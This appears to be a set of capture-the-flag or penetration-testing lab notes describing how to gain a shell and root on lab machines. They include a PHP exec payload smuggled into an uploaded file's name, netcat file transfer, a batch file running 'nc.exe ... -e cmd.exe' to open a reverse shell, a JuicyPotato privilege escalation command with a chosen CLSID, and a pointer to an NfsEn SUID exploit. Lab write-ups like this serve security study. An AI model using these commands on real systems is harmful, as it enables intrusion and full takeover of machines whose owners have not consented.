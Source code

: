 # Webshell LFI RFI
Exploit to Getting User
1. Port 8787 is an http service
2. Check robots.txt and you should get a hidden directory
3. Credential admin:admin
4. Follow https://www.exploit-db.com/exploits/42003 and upload a CSV file
5. Capture the POST request using Burp and edit the file name to <?php echo exec(‘nc -lvnp
9000 > shell.php 2>&1’); ?>.php
6. In your local machine, transfer the shell.php to target machine by running nc -nv 192.168.XX.53
9000 < shell.php
7. Start a netcat listener to your machine and browse
http://192.168.XX.53:8787/2315e8131432505230f581cf689e783a/shell.php
8. User shell!

# Win Priv Esc 
## Potato
Privilege Escalation to Root
1. Machine is using a Windows 10 Pro and the SeImpersonatePrivilege is enabled.
2. Download JuicyPotato - https://github.com/ohpe/juicy-potato
3. Upload a netcat binary to target machine and run the command:
echo C:\Users\Rob\Desktop\nc.exe 192.168.123.123 12345 -e cmd.exe > rev.bat
4. Setup netcat listener in your local machine
5. Go to https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro and copy a CLSID
6. Run JuicyPotato.exe -l 12345 -p C:\Users\Rob\Desktop\rev.bat -t * -c
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
7. Root shell!

# Linux Priv Esc
## SUID
Privilege Escalation to Root
1. Run Linux Enumeration and you should find SUID named NfsEn
2. Check for its version because it is vuln to https://github.com/patrickfreed/nfsen-exploit
3. Root shell!
